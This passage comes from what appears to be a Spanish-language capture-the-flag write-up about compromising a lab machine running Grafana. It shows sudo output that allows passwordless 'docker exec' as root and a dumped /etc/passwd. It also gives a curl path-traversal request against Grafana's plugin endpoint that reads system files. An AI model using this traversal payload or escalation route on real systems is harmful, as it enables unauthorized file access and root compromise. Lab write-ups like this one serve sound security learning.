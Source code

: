 - Podemos ejecutar como root sin proporcionar contraseña **docker exec** .

```bash
boris@ip-10-10-10-11:~$ sudo -l
Matching Defaults entries for boris on ip-10-10-10-11:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User boris may run the following commands on ip-10-10-10-11:
    (root) NOPASSWD: /snap/bin/docker exec *
boris@ip-10-10-10-11:~$
```

- Si leemos el archivo **/etc/passwd** no existe el usuario Grafana.

```bash
boris@ip-10-10-10-11:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
boris:x:1001:1001:,,,:/home/boris:/bin/bash
```

- A pesar de que con **curl** pudimos verlo, lo más probable es que ese usuario esté en un contenedor, podemos ver el nombre del contenedor mediante el **LFI** .

```bash
➜  ~ curl --path-as-is http://10.10.86.89:3000/public/plugins/alertlist/../../../../../../../../etc/hostname
e6ff5b1cbc85
➜  ~
```
